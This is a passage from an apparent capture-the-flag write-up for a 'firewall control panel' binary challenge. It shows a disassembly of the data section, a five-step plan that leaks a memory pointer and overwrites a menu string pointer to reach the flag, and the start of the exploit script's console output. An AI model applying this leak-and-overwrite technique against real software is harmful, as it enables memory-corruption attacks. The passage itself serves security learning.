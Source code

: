 	.data:00412968                                                           ; init_strings+57↑w
	.data:0041296C 00 00 00 00 00 00+firewall_rule_list firewall_rule 10h dup(<?>)
	.data:0041296C 00 00 00 00 00 00+                                        ; DATA XREF: AddFirewallRule+33↑r
	.data:0041296C 00 00 00 00 00 00+                                        ; AddFirewallRule+4E↑r ...
	.data:00412B2C ?? ?? ?? ??       _feel5bad       dd ?                    ; DATA XREF: authenticate_function+3↑r
	.data:00412B2C                                                           ; init_strings+71↑w
	.data:00412B30 ??                byte_412B30     db ?                    ; DATA XREF: init_strings+7B↑w
	.data:00412B31 ?? ?? ?? ?? ?? ??+FLAG_HERE       db 40h dup(?)           ; DATA XREF: authenticate_function+1C↑o
	.data:00412B31 ?? ?? ?? ?? ?? ??+                                        ; ReadFlagFile+18↑o ...
	.

Writing right before the array is overwriting string pointers that the menu used to print. So our exploit was as follows.

1. Enter Service Access Token
2. Add a rule
3. Leak a memory pointer by printing rule 0
4. Create offset to flag address with leaked pointer
5. overwrite a string pointer in the menu by Adding a rule 0

![](https://i.imgur.com/L9sfNDY.png)



	user@ubuntu1604:~/firewall$ python firewall_sploit.py 
	+----------------------------------------+
	|-------[ FIREWALL CONTROL PANEL ]-------|
	+----------------------------------------+
	| ENTER SERVICE ACCESS TOKEN:
	 | +-------------------------+
	| |- MENU                   |
	| +-------------------------+
	| | 1. add firewall rule    |
	| | 2. edit firewall rule   |
	| | 3. delete firewall rule |
	| | 4. print firewall rule  |
	| | 5. list firewall rules  |
	| | 6. check credentials    |
	| | 7. help                 |
	| | 8. quit                 |
	| +-------------------------+
	| MENU SELECTION:
	 | CREATING FIREWALL RULE -
	| ENTER RULE NAME:
	 | ENTER RULE PORT:
	 | ENTER RULE TYPE:
	 | SUCCESSFULLY CREATED FIREWALL RULE!
	| PRESS ENTER TO RETURN TO MENU